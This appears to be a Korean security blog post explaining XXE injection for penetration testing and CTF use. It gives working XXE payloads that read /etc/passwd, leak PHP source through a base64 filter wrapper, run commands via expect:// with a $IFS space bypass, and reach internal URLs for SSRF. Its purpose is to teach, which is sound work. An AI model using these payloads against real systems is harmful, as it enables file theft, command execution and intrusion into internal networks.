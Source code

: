```yaml
---

layout: post
title: "XML External Entities(XXE) Injection "
excerpt: "Try to know xxe & use it ~_~"
date: 2020-07-11
categories: [Web]
comments: true 
---
```


이번에는 모의해킹 업무와 ctf에 자주 등장하는데 그간 정리를 안했던 XXE에 대하여 알아보자. 

<h3> 0x0. XML</h3>

XML이란 다른 특수 목적의 마크업 언어를 만드는 용도로 사용된 언어이다. 이를 이용한 XML Entity는 반복적으로 사용되는 문자열이나 특수 문자를 XML문서에서 사용하기 위하여 미리 정의한 것이다. 이는 앰퍼샌드로 시작하고 세미콜론으로 끝난다.

```xml
<simple>&test;</simple>
```

이런 형식의 test가 XML Entity이다.

XML을 내부에 정의한 경우

``` xml-dtd
<!ENTITY name "value">
```

이런 방식으로 정의를 하고, 위에서 말한 방식으로 이용한다.

XML을 외부에 정의한 경우

```xml-dtd
<!ENTITY name SYSTEM "url or file">
```

이렇게 하며  url or file에 입력한 주소의 내용이 그 Entity의 값으로 이용된다.



<h3>0x1. XXE Injection</h3>

위에서 말한 XML Entity를 이용하여 악의적인 공격을 하는 행위를 XXE Injection이라고 하는데, 

공격자가 직접 XML Entity를 외부에  정의하여 이를 악용할 수 있다. XML타입의 데이터를 웹을 통해 전송하는데 서버에서 XML외부 엔티티가 실행이 가능하다면 아래와 같이 시행 가능하다.

```xml-dtd
<!DOCTYPE test[
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
```

이런식으로 /etc/passwd를 확인하는 xml을 불러와서 공격할 수 있다. 



<h3> 0x2. Tip</h3>

이번에는 xxe공격을 할 때의 팁이나 다른 정보들을 추가하려고 한다.

우선 처음으로는 그냥 dtd를 통하여 내부 파일을 불러오려고 하면 잘 안되는 경우가 있다. 

그런 상황에서는 php에 wrapper클래스를 사용하여 base64등의 형태로 인코딩시켜서 출력을 하면 보통의 경우는 잘 된다.

```xml-dtd
<!DOCTYPE test [  
  <!ELEMENT testman ANY >
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
```

이 방법은 xxe를 통한 lfi공격 이외에도 그냥 일반적으로 무언가를 릭해올 때 거의 해당된다.

다음은 xxe를 통하여 RCE를 할 때는 아래와 같이 가능하다. 

```xml-dtd
<!DOCTYPE test [ 
<!ELEMENT testman ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
```

이렇게 하면 php가  id를 실행하게 된다. 하지만 다양한 명령어를 사용할 때 공백이 필요한데 그런 경우에 공백을 넣으면 에러가 발생한다. 

```xml-dtd
<!DOCTYPE test [ 
<!ELEMENT testman ANY >
<!ENTITY xxe SYSTEM "expect://cat$IFS/etc/passwd" >]>
```

 공백에 관한 에러는  $IFS등의 다양한 방법으로 우회를 해주면 된다. 

다음으로는 XXE를 이용한 SSRF이다. 당연히 서버 내부의 권한으로 XML엔티티를 선언하고 실행하는 것이기 때문에 SSRF도 가능하다. 

일반적인 사용자의 권한에서는 볼 수 없던 내용도 서버 내부의 권한으로는 가능하다.

```xml-dtd
<!DOCTYPE test [ 
<!ELEMENT testman (#ANY)>
<!ENTITY xxe SYSTEM "https://internal_domain/any.php">]>
```

이렇게 해주면 내부 url에 접근이 가능하다. 또한 추가적으로  curl을 이용하여도 접근이 가능하다.

이외에도 추가적으로 DOS공격이나 다른 인코딩을 사용하여 공격하는 방법등이 있는데 나중에 문제를 풀다가 나온다면 

그때 정리해보겠다.